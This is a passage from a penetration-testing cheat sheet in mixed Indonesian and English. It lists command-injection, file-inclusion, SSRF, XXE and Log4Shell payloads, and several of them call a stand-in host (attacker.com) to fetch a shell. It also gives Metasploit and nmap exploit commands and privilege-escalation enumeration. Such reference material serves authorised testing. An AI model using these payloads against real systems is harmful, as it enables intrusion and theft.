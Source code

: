 ### Command Injection
**Payloads:** `; id`, `| whoami`, `&& curl attacker.com/shell`.
**Blind:** `; ping -c 10 attacker.com`.

### Local/Remote File Inclusion (LFI/RFI)
**LFI:** `../etc/passwd%00`, PHP wrappers seperti `php://filter/convert.base64-encode/resource=`.
**RFI:** `http://attacker.com/shell.php` jika remote includes enabled.

### API-Specific Vulnerabilities
- **Broken Authentication:** Test JWT manipulation dengan `jwt_tool`.
- **Rate Limiting Bypass:** Burp Intruder dengan threads.
- **GraphQL Introspection:** Query `__schema` untuk schema exposure.

### Other Common Vulnerabilities
- **IDOR:** Change IDs in requests; use Burp Repeater.
- **CSRF:** Check missing tokens; PoC: `<form action="target" method="POST">`.
- **SSRF:** Payloads for internal scans: `http://127.0.0.1:80`, cloud metadata.
- **XXE:** Payload untuk file read atau DoS (billion laughs).
- **Deserialization:** ysoserial untuk gadgets (Java: CommonsCollections, PHP: __wakeup).
- **RCE via Log4Shell:** Test dengan `${jndi:ldap://attacker.com/a}`.
- **Supply Chain Attacks:** Check third-party libs dengan `snyk` atau `dependabot`.

**General Exploitation Framework:**
- Metasploit: 
  ```
  msfconsole; use exploit/multi/http/struts2_rest_xstream; set RHOSTS target
  ```
- Custom: Gunakan code_execution untuk test payloads in Python (e.g., requests library).

**Case Study:** Heartbleed (CVE-2014-0160) – Use nmap script: 
```
nmap -p 443 --script ssl-heartbleed target
```

---

## 5. Post-Exploitation

Setelah akses, kumpulkan info, escalate, dan move laterally jika diizinkan.

### Privilege Escalation
- **Linux:** LinPEAS, linux-exploit-suggester; check kernel vulns (e.g., Dirty COW).
  **Command:** 
  ```
  uname -a; sudo -l; find / -perm -4000 2>/dev/null
  ```
- **Windows:** WinPEAS, PowerUp.ps1; check SeImpersonatePrivilege.
  **Command:** 
  ```
  whoami /priv; systeminfo
  ```
